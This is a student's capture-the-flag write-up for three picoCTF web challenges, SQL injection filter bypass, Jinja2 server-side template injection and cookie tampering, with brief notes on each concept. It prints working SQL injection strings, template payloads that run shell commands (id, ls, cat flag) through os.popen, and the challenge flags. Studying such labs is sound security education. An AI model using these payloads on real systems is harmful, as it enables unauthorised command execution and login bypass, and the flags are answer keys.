 # 1. Web Gauntlet

> web sql injection

## Solution:

- the input given was in the format 'text'. we could trick the server by writing the second inverted comma in the input itself and writing our desired commands after that. the first three challenges could be solved simply by ending the input with an inverted comma and then with a semicolon for it to ignore whatevers after that and let us bypass it. the next two challenge did not allowed to write the word admin therefore we use the OR operator to split the word into two bypassing the filter but still giving the input as admin

```
admin';
admin';
admin';
adm'||'in';
adm'||'in';
```

## Flag:

```
picoCTF{y0u_m4d3_1t_79a0ddc6}
```

## Concepts learnt:

- web sql injection and that we can trick it end the input using inverted comma and write our desired commands precedding that. there are multiple ways to input a string and the filters were only on a few of them therefore we could use other methods to bypass
- 

## Notes:

- there were many other ways to bypass the filters and one of the other was the UNION command which could be used in the 4th round 
- 

## Resources:

- searched in google different commands which i can use to bypass the filters


***

# 2. SSTI1

> Server-Side Template Injection (SSTI)

## Solution:

- The goal is to find any object accessible within the template. this is a bypass i found on an online article. the popen id command lets us check if the bypass is working. after we confirm that we use the ls command to see the files present from where we find that there is a flag file. we run the cat flag command to get our flag

```
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

## Flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bdc95c1a}
```

## Concepts learnt:

- A server side template injection is a vulnerability that occurs when a server renders user input as a template of some sort. Templates can be used when only minor details of a page need to change from circumstance to circumstance. This can be abused, since some template engines support some fairly complex functionality, that eventually allow for developers to run commands or file contents straight from the template
- 

## Notes:

- The payload through available Python objects to find a way to import the os module, which can execute shell commands. The goal is to find any object accessible within the template. the popen command on the payload runs a shell command and the read commands reads the output of the popen command
- 

## Resources:

- searched in google SSTI and found a article on bypassing (https://onsecurity.io/article/server-side-template-injection-with-jinja2/)


***

# 3. Cookies

> changing data in the cookies 

## Solution:

- we go the cookies menu in the developers tab and see that the cookies change when we change the value. by a simple manual binary search we find out that the max value for a valid value is 28. we than manually type numbers from 1 to 28 to check the cookies and see the flag in the value 18.

## Flag:

```
picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}
```

## Concepts learnt:

- Cookies are small text files that websites store on your device through your web browser. They help sites remember information about the users and their visits. The cookies are updated every time between the client and server on every site visit
- 

## Notes:

- we can use cookies to change the values and get information we want
- 

## Resources:

- no refrences


***